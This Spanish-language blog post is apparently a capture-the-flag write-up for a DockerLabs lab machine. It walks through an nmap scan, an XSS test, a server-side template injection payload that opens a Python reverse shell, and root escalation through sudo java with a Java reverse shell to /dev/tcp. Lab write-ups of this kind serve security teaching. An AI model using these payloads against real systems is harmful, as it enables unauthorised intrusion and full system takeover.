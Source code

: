 ```yaml
---
layout: post
title: Maquina Collections
subtitle: DockerLabs
header-img: img/in-post/2020-10-07/pinguinazo-dl.png
header-style: text
catalog: true
tags:
  -  DockerLabs
  -  SSTI
  -  NetCat
  -  Escalado de privilegios
  -  Reverse Shell
---
```


#### **Información**
- **Máquina:** Collections
- **Plataforma:** [DockerLabs](https://dockerlabs.es/)
- **Creador:** El Pingüino de Mario
- **SO:** Linux
- **Dificultad:** `Medio`{:.warning}

#### **Configuración Entorno**
Primeramente, como siempre para configurar las máquinas de DockerLabs, exportamos los ficheros auto_deploy.sh y en este caso pinguinazo.tar.
Para ejecutarlo utilizamos el siguiente comando:
```bash
sudo bash auto_deploy.sh pinguinazo.tar
```
![Image 1](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img1.png)

**auto_deploy.sh:** este archivo se encarga de desplegar la máquina mediante docker y, una vez presionamos `ctrl+c`{:.info} pasa a un proceso de borrado, todo automático, sin necesidad de tener conocimientos de docker.

**pinguinazo.tar:** contiene todo el contenido de la máquina docker; es el corazón, donde está la máquina víctima.

#### **Reconocimiento**
Lo primero que realizamos es lanzar un ping contra la IP de la máquina para comprobar que tenemos conectividad.
```bash
ping -c 1 172.17.0.2
```
![Image 2](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img2.png)

Podemos observar que el ttl es de 64, por tanto, como norma general podemos afirmas que se trata de una maquina linux.
Una vez comprobada la conectividad, iniciaremos un escaneo con nmap, para detectar puertos abiertos y lo almacenaremos en un fichero llamado scan, con el siguiente comando:
```bash
nmap -p- --open -sV -sC -sS --min-rate=5000 -vvv -n -Pn 172.17.0.2 -oN scan
```
- **-p-** --> Busqueda de puertos abiertos
- **--open** --> Enumera los puertos abiertos
- **-sS** --> Es un modo de escaneo rápido
- **-sC** --> Que use un conjunto de scripts de reconocimiento
- **-sV** --> Que encuentre la versión del servicio abierto
- **--min-rate=5000** --> Hace que el reconocimiento aun vaya más rápido mandando no menos de 5000 paquetes
- **-n** --> No hace resolución DNS
- **-Pn** --> No hace ping
- **-vvv** --> Muestra en pantalla a medida que encuentra puertos (Verbose)
![Image 3](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img3.png)
![Image 4](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img4.png)

Vemos que tiene abierto el puerto **5000 (upnp?)**.

#### **Explotación**
Lo primero que observamos al acceder por el puerto 5000 es un formulario de registro.
![Image 5](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img5.png)

Si lo rellenamos, vemos que nos muestra un saludo y el nombre que hemos introducido en el primer campo.
![Image 6](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img6.png)

Trataremos de averiguar si es vulnerable a ejecución de html injection.
![Image 7](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img7.png)

En el primer campo introducimos lo siguiente:
```html
<script>alert("hackeado")</script>
```
Al enviarlo comprobamos que efectivamente es vulnerable.
![Image 8](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img8.png)

Ahora comprobaremos si es vulnerable a SSTI (Server Side Template Injection), en el github de [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread) encontramos exploit para este tipo de vulnerabilidad.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
![Image 9](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img9.png)

Nos muestra el siguiente mensaje:
![Image 10](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img10.png)

Ahora intentaremos ponernos en escucha por el puerto 443 con netcat, y mediante un payload modificado del github de **PayloadsAllTheThings**, trataremos de ejecutar una reverse shell

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_S REAM);s.connect((\"x.x.x.x\",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}
```
![Image 11](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img11.png)

Recibimos la conexión y vemos que somos es usuario pinguinazo :penguin:

![Image 12](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img12.png)

Ahora trataremos de realizar una escalada de privilegios para poder ser root.
Para ello, como siempre, lo primero que hacemos es revisar que comando puede ejecutar el usuario actual como sudo.
![Image 13](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img13.png)

Vemos que podemos ejecutar java con privilegios de root, por tanto, podemos crear un fichero java con una revesrse shell ([https://www.revshells.com/](https://www.revshells.com/)) que podremos ejecutar como root.

```java
public class shell {
    public static void main(String[] args) {
        ProcessBuilder pb = new ProcessBuilder("bash", "-c", "$@| bash -i >& /dev/tcp/172.17.0.1/4444 0>&1")
            .redirectErrorStream(true);
        try {
            Process p = pb.start();
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```
Nos ponemos en escucha con netcat, esta vez por el puerto 4444 y ejecutamos como sudo el fichero java que hemos creado.
```bash
sudo java rev_shell.java
```
![Image 14](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img14.png)

Y recibimos la reverse shell siendo el usuario root.

![Image 15](https://aanton94.github.io/blog/img/posts/dl/pinguinazo/img15.png)

:penguin::penguin: ¡¡¡¡Así que, maquina pinguineada!!!! :penguin::penguin:


#### **Eliminación del entorno**

Para borrar la máquina solo debemos ir a la consola donde lo desplegamos y presionar `ctrl+c`{:.info} y eliminaría y borraría todo rastro de la máquina víctima en nuestro sistema LINUX.

![Image 10](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img10.png)

`¡¡¡Espero que os haya gustado y nos vemos en la próxima!!!`{:.success}
